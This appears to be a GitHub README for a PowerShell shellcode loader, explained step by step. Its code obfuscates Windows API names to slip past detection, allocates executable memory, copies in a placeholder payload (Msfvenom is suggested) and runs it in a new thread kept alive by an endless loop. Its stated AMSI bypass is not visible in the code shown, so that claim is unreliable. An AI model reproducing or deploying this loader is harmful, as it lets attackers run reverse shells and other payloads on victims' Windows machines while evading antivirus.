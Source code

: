 # Powershell_Rev_Scripts
## General
This script bypasses Windows AMSI and executes shellcode using PowerShell. Even if the PowerShell window is given the command Ctrl-C, it will continue to run in the background. 
- Terminating the Process
    - Terminate the thread or PowerShell itself using Task Manager.
    - After the shell code finishes, it should cause the thread to terminate
        - Ex. Reverse Shell -> after the attacker terminates the session, the thread should also be terminated, and with it, PowerShell as well

## Explanation
# 1.
```powershell
$pythonmods = @"
using System;
using System.Runtime.InteropServices;
...
```
A variable called pythonmods is created and is a string that holds multiple lines of code emphasized by the '@"' or here strings. It includes the System and System.Runtime.InteropServices namespace.

# 2.
```powershell
public class K2 {
    [DllImport("kernel32", EntryPoint="Get" + "Proc" + "Address")]
    public static extern IntPtr gpa(IntPtr hModule, string procName);
    [DllImport("kernel32", EntryPoint="Load" + "Library")]
    public static extern IntPtr ll(string name);
    [DllImport("kernel32", EntryPoint="Virtual" + "Protect")]
    public static extern bool vp(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
```
This part of the code defines a class named K2, which calls Windows API functions using DllImport. 

The first import is "GetProcAddress," which is obfuscated by splitting into "Get" + "Proc" + "Address." 
- This import is used to get the address


The second import is "LoadLibrary" obfuscated by splitting into "Load" + "Library".
- This import is to load a dynamic link library, also known as a DLL, into memory


The third import is "VirtualProtect" obscured by splitting into "Virtual" + "Protect".
- This import is used to modify a region of memory's protection, ie, making it writable, executable, etc.

# 3.
```powershell
[DllImport("kernel32", SetLastError = true)]
    public static extern IntPtr CreateThread(
        IntPtr lpThreadAttributes,
        uint dwStackSize,
        IntPtr lpStartAddress,
        IntPtr lpParameter,
        uint dwCreationFlags,
        out IntPtr lpThreadId
    );
```
This method creates a method called CreateThread, which executes code at the address specified by lpStartAddress

# 4.
```powershell
[DllImport("kernel32", EntryPoint="Virtual" + "Alloc")]
    public static extern IntPtr va(IntPtr lpAddress, UIntPtr dwSize, uint flAllocationType, uint flProtect);

    public static void Copy(Byte[] source, Int32 startIndex, IntPtr destination, Int32 length) {
        Marshal.Copy(source, startIndex, destination, length);
    }
}
"@
```
The import is "VirtualAlloc" obfuscated by splitting into "Virtual" + "Alloc".
- This import is used to allocate memory for our shellcode


The helper function Copy is used to copy bytes to a specific memory location

# 5.
```powershell
Add-Type -TypeDefinition $pythonmods -Language CSharp
```
This tells PowerShell to add the type definition $pythonmods, specify the code as C#, and compile it. 

# 6.
```powershell
$pl = [Byte[]] (
    # Enter Payload Here
)
```
This part is where to add the payload, such as Msfvenom

# 7.
```powershell
$plSize = $pl.Length

$mem = [K2]::va([IntPtr]::Zero, [UIntPtr]::new($plSize), 0x3000, 0x40)

[K2]::Copy($pl, 0, $mem, $plSize)
```
First, calculate the size of the payload in bytes and store it as $plSize
Next, allocate memory for the payload using the VirtualAlloc function with the va method. Add the allocation type 0x3000, which means to have the memory region both reserved and committed.
- 0x1000 (MEM_COMMIT)
    - Flag used to allocate physical storage
- 0x2000 (MEM_RESERVE)
    - Flag that reserves memory space and saves it for future use
Add the protection flag 0x40, which indicates PAGE_EXECUTE_READWRITE, meaning the memory can be executed, read, and written to.
Next, copy the payload into the allocated memory.

# 8.
```powershell
$oldProtect = 0
$protectionResult = [K2]::vp($mem, [UIntPtr]::new($plSize), 0x40, [ref]$oldProtect)
```
Changes the allocated memory protection to 0x40, which allows the payload to execute as soon as it's copied into memory. The vp method is called to ensure the memory is executable.

# 9.
```powershell
$threadId = [IntPtr]::Zero
$hThread = [K2]::CreateThread([IntPtr]::Zero, 0, $mem, [IntPtr]::Zero, 0, [ref]$threadId)
```
Creates a thread that executes at the allocated memory where the copied payload resides. 

# 10.
```powershell
while ($true) {
    Start-Sleep -Seconds 60
}
```
Infinite loop that waits 60 seconds between each iteration of the loop. Used to keep the current PowerShell window running.
